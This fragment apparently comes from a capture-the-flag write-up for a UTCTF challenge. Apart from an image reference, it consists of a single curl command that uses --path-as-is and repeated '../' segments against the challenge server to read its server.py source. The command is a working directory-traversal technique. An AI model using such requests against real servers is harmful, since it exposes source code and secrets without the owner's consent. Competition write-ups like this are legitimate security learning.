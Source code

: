 + do `curl --path-as-is --url 'http://guppy.utctf.live:7884/../../../../../server.py` to get the source code of server.py
